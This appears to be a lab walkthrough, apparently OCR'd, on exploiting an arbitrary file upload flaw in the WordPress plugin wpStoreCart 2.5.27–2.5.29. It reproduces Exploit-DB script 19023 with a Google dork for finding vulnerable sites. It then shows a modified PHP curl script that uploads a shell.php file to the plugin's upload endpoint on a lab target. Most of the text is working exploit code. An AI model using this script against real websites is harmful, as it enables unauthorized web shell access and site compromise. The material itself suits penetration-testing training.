 `cp /usr/share/exploitdb/exploits/php/webapps/19023.php ./`

`cat ./19023.php`:
```php
##################################################
# Description : Wordpress Plugins - wpStoreCart Arbitrary File Upload
Vulnerability
# Version : 2.5.27 - 2.5.29
# Link : http://wordpress.org/extend/plugins/wpstorecart/
# Plugins : http://downloads.wordpress.org/plugin/wpstorecart.2.5.29.zip
# Date : 03-06-2012
# Google Dork : inurl:/wp-content/plugins/wpstorecart/
# Author : Sammy FORGIT - sam at opensyscom dot fr -
http://www.opensyscom.fr
##################################################


Exploit :

PostShell.php
<?php

$uploadfile="lo.php";
$ch =
curl_init("http://www.exemple.com/wordpress/wp-content/plugins/wpstorecart/php/upload.php");📌
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS,
         array('Filedata'=>"@$uploadfile"));📌
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);
print "$postResult";

?>

Shell Access :
http://www.exemple.com/wordpress/wp-content/uploads/wpstorecart/lo.php

lo.php
<?php
phpinfo();
?>
```

`vim ./wpstorecart_exploit.php`:
```php
<?php

$uploadfile="/home/kali/shell.php";
$ch =
curl_init("https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/plugins/wpstorecart/php/upload.php");
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS,
         array('Filedata'=>curl_file_create($uploadfile)));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);
print "$postResult";

?>
```

